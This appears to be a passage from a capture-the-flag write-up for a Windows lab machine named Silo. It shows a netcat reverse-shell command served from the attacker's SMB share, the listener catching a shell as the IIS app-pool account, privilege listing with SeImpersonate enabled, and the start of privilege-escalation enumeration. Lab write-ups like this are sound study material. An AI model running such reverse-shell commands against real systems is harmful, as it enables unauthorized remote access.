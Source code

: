 ![image-20240221193352536](./Silo.assets/image-20240221193352536.png)

### Reverse Shell

Command: `\\10.10.16.24\qwe\nc64.exe -e cmd.exe 10.10.16.24 1234`

- enabled local smb server to provide nc

```console
└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.133.187] 49164
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Privilege Escalation

### Enumeration

systeminfo

```console
Host Name:                 SILO
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
System Type:               x64-based PC
```
